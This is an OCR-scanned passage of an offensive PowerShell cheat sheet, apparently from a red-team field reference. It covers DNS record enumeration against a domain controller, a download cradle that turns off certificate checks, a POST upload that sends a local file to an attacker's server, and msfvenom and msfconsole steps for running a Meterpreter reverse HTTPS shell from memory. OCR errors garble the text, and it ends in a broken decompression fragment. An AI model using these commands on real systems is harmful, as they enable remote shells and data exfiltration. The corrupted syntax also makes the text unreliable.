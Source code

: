 ```text
Get-WmiObject -ComputerName DC -Namespace root\microsoftDNS -Class 
MicrosoftDNS _ ResourceRecord -Filter "domainname~' DOMAIN '" | select 
textrepresentation 
```

### Download from Powershell from specific path

```text
powershell.exe -noprofile -noninteractive -command 
"[System.Net.ServicePointManager] ::ServerCertificateValidationCallback = 
{$true); $source="""https:ll YOUR SPECIFIED IP I file.zip """; 
$destination="C:\rnaster.zip"; $http = new-object Systern.Net.WebClient;
$response= $http.DownloadFile($source, $destination);" 
```

### Display Powershell data

```text
Script will send a file ($filepath) via http to server ($server) via POST request. 
Must have web server listening on port designated in the $server
 
powershell.exe -noprofile -noninteractive -command 
"[S;stem.Net.ServicePointManager] ::ServerCertificateValidationCallback = 
{$true); $server="""http:// YOUR_SPECIFIED IP / folder """;
$filepath="C:\master.zip" $http= new=object System.Net.WebClient;
$response= $http.UploadFile($server,$filepath);" 
```

## Using powershell to run meterpreter from memory

```text
Need Metasploit v4.5+ (msfvenom supports Powershell) 
Use Powershell (x86) with 32 bit Meterpreter payloads 
encodeMeterpreter.psl script can be found on next page 
```

### in the attacking system

```text
1. ./msfvenom -p Wlndows/meterpreter/reverse https -f psh -a x86 LHOST=1.1.1.1 LPORT=443 audit.psl 
2. Move audit.psl into same folder as encodeMeterpreter.psl 
3. Launch Powershell (x86) 
4. powershell.exe -executionpolicy bypass encodeMeterpreter.psl 
5. Copy the encoded Meterpreter string
```

### Start the listener in the attacking system

```text
1. ./msfconsole 
2. use exploit/multi/handler 
3. set payload windows/meterpreter/reverse https 
4. set LHOST 1. 1. 1. 1 
5. set LPORT 443 
6. exploit -j 
```


[IO.Compression.Compressiont~ode]: :Decompress) I,
[Text.Encoding]: :ASCII)) .ReadToEnd() ;"